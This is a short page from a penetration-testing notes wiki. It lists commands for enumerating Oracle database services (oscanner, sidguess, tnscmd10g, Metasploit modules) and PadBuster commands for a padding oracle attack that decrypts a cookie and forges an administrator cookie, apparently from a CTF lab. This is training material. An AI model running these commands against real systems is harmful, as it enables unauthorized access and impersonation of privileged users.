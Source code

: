 # Oracle

All tools used below are supported by  [[Kali]], `nmap` has default scripts for Oracle Services  [[Nmap-Cheatsheet]] and [[Nmap-AllTheScripts]]; 
```bash
# oscanner
oscanner -s $ip -P 1040

# sidguess
sidguess -i $ip -d /usr/share/wordlists/metasploit/unix_users.txt

# tnscmd10g
tnscmd10g version -h $ip
```

[[Metasploit]] has Auxiliary Modules:
- https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/admin/oracle


## [Padding oracle attacks](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md#padding-oracle-attacks)

This is a updated mirror of [ChrisPritchard/ctf-writeups/ TIPS-AND-TRICKS.md#Padding oracle attacks](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md#padding-oracle-attacks)

Use [https://github.com/AonCyberLabs/PadBuster](https://github.com/AonCyberLabs/PadBuster) might need to install: 
`sudo apt-get install libcrypt-ssleay-perl`

Command to decrypt some cookie value:
```bash
./padBuster.pl http://10.10.31.123/index.php TaIt46TG994JDsPmpFp8Q0XovkIFJHY4 8 -cookies hcon=TaIt46TG994JDsPmpFp8Q0XovkIFJHY4 -error "Invalid padding"`
```
If that works, and the cookie value is something you want to manipulate, you can use the same tool to encrypt via the -plaintext argument:

```bash
./padBuster.pl http://10.10.31.123/index.php TaIt46TG994JDsPmpFp8Q0XovkIFJHY4 8 -cookies hcon=TaIt46TG994JDsPmpFp8Q0XovkIFJHY4 -error "Invalid padding" -plaintext user=administratorhc0nwithyhackme`
```

## References

[OlivierLaflamme/Cheatsheet-God - Cheatsheet_Oracle.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_Oracle.txt)
[rapid7 GitHub - Oracle Auxiliary Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/admin/oracle)
[ChrisPritchard/ctf-writeups/ TIPS-AND-TRICKS.md#Padding oracle attacks](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md#padding-oracle-attacks)
